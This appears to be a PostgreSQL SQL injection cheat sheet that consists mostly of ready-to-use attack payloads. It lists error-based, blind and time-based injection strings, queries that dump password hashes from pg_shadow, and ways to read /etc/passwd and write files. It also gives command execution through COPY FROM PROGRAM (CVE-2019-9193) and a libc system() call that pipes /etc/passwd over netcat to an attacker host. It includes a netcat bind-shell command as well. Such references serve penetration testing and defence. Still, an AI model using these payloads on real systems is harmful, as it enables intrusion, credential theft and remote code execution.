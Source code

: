 # PostgreSQL injection

## PostgreSQL Comments

```sql
--
/**/  
```

## PostgreSQL chain injection points symbols
```sql
; #Used to terminate a SQL command. The only place it can be used within a statement is within a string constant or quoted identifier.
|| #or statement 

# usage examples: 
/?whatever=1;(select 1 from pg_sleep(5))
/?whatever=1||(select 1 from pg_sleep(5))
```

## PostgreSQL Version

```sql
SELECT version()
```

## PostgreSQL Current User	

```sql
SELECT user;
SELECT current_user;
SELECT session_user;
SELECT usename FROM pg_user;
SELECT getpgusername();
```

## PostgreSQL List Users

```sql
SELECT usename FROM pg_user
```

## PostgreSQL List Password Hashes

```sql
SELECT usename, passwd FROM pg_shadow 
```
## PostgreSQL List Database Administrator Accounts
```sql
SELECT usename FROM pg_user WHERE usesuper IS TRUE
```
## PostgreSQL List Privileges

```sql
SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user
```

## PostgreSQL Check if Current User is Superuser

```sql
SHOW is_superuser; 
SELECT current_setting('is_superuser');
SELECT usesuper FROM pg_user WHERE usename = CURRENT_USER;
```

## PostgreSQL Database Name

```sql
SELECT current_database()
```

## PostgreSQL List Database

```sql
SELECT datname FROM pg_database
```

## PostgreSQL List Tables

```sql
SELECT table_name FROM information_schema.tables
```

## PostgreSQL List Columns

```sql
SELECT column_name FROM information_schema.columns WHERE table_name='data_table'
```

## PostgreSQL Error Based

```sql
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name='data_table'+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)

' and 1=cast((SELECT concat('DATABASE: ',current_database())) as int) and '1'='1
' and 1=cast((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT data_column FROM data_table LIMIT 1 OFFSET data_offset) as int) and '1'='1
```

## PostgreSQL XML helpers

```sql
select query_to_xml('select * from pg_user',true,true,''); -- returns all the results as a single xml row
```

The `query_to_xml` above returns all the results of the specified query as a single result. Chain this with the [PostgreSQL Error Based](#postgresql-error-based) technique to exfiltrate data without having to worry about `LIMIT`ing your query to one result.

```sql
select database_to_xml(true,true,''); -- dump the current database to XML
select database_to_xmlschema(true,true,''); -- dump the current db to an XML schema
```

Note, with the above queries, the output needs to be assembled in memory. For larger databases, this might cause a slow down or denial of service condition.

## PostgreSQL Blind

```sql
' and substr(version(),1,10) = 'PostgreSQL' and '1  -> OK
' and substr(version(),1,10) = 'PostgreXXX' and '1  -> KO
```

## PostgreSQL Time Based
#### Identify time based

```sql
select 1 from pg_sleep(5)
;(select 1 from pg_sleep(5))
||(select 1 from pg_sleep(5))
```

#### Database dump time based
```sql
select case when substring(datname,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from pg_database limit 1
```

#### Table dump time based
```sql
select case when substring(table_name,1,1)='a' then pg_sleep(5) else pg_sleep(0) end from information_schema.tables limit 1
```
#### columns dump time based
```sql
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name limit 1
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name where column_name='value' limit 1
```


```sql
AND [RANDNUM]=(SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME]))
AND [RANDNUM]=(SELECT COUNT(*) FROM GENERATE_SERIES(1,[SLEEPTIME]000000))
```

## PostgreSQL Stacked Query

Use a semi-colon ";" to add another query

```sql
http://host/vuln.php?id=injection';create table NotSoSecure (data varchar(200));--
```

## PostgreSQL File Read

```sql
select pg_ls_dir('./');
select pg_read_file('PG_VERSION', 0, 200);
```

NOTE: Earlier versions of Postgres did not accept absolute paths in `pg_read_file` or `pg_ls_dir`. Newer versions (as of [this](https://github.com/postgres/postgres/commit/0fdc8495bff02684142a44ab3bc5b18a8ca1863a) commit) will allow reading any file/filepath for super users or users in the `default_role_read_server_files` group.

```sql
CREATE TABLE temp(t TEXT);
COPY temp FROM '/etc/passwd';
SELECT * FROM temp limit 1 offset 0;
```

```sql
SELECT lo_import('/etc/passwd'); -- will create a large object from the file and return the OID
SELECT lo_get(16420); -- use the OID returned from the above
SELECT * from pg_largeobject; -- or just get all the large objects and their data
```

## PostgreSQL File Write

```sql
CREATE TABLE pentestlab (t TEXT);
INSERT INTO pentestlab(t) VALUES('nc -lvvp 2346 -e /bin/bash');
SELECT * FROM pentestlab;
COPY pentestlab(t) TO '/tmp/pentestlab';
```

Or as one line:
```sql
COPY (SELECT 'nc -lvvp 2346 -e /bin/bash') TO '/tmp/pentestlab';
```

```sql
SELECT lo_from_bytea(43210, 'your file data goes in here'); -- create a large object with OID 43210 and some data
SELECT lo_put(43210, 20, 'some other data'); -- append data to a large object at offset 20
SELECT lo_export(43210, '/tmp/testexport'); -- export data to /tmp/testexport
```

## PostgreSQL Command execution

### CVE-2019–9193

Can be used from [Metasploit](https://github.com/rapid7/metasploit-framework/pull/11598) if you have a direct access to the database, otherwise you need to execute manually the following SQL queries. 

```SQL
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Drop the table you want to use if it already exists
CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM 'id';        -- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec;                 -- [Optional] View the results
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Remove the table
```

![https://cdn-images-1.medium.com/max/1000/1*xy5graLstJ0KysUCmPMLrw.png](https://cdn-images-1.medium.com/max/1000/1*xy5graLstJ0KysUCmPMLrw.png)

### Using libc.so.6

```sql
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc <attacker IP> <attacker port>');
```

### Bypass Filter

#### Quotes

Using CHR

```sql
SELECT CHR(65)||CHR(66)||CHR(67);
```

Using Dollar-signs  ( >= version 8 PostgreSQL)

```sql
SELECT $$This is a string$$
SELECT $TAG$This is another string$TAG$
```
